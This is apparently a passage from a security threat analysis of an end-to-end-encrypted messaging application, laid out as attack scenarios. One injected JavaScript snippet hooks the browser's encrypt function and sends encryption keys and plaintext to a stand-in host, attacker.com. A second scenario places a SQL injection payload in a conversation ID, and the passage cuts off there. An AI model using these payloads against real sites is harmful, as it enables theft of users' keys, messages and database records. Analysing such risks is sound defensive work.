 **Steps:**

1. **XSS Injection:**
   - Find XSS vulnerability (not analyzed here, but common)
   - Inject malicious script into page

2. **Key Interception:**
   ```javascript
   // Injected script
   (function() {
     const original = window.crypto.subtle.encrypt;
     window.crypto.subtle.encrypt = async function(...args) {
       // Exfiltrate key and plaintext
       const key = await crypto.subtle.exportKey('raw', args[1]);
       const plaintext = new TextDecoder().decode(args[2]);
       
       fetch('https://attacker.com/steal', {
         method: 'POST',
         body: JSON.stringify({
           key: bufferToHex(key),
           message: plaintext
         })
       });
       
       return original.apply(this, args);
     };
   })();
   ```

3. **Real-time Decryption:**
   - Attacker receives keys and plaintext as user types
   - No need to break encryption
   - E2EE is bypassed completely

**Impact:** Complete E2EE bypass, real-time message interception.

---

### 9.3 Database Extraction via SQL Injection

**Scenario:** Attacker extracts entire user database.

**Steps:**

1. **Identify SQLi Point:**
   ```javascript
   // Vulnerable conversation ID handling
   POST /api/conversations
   {
     "conversation_entries": [{
       "id": "' UNION SELECT * FROM users--",
       ...
     }]
   }
   ```
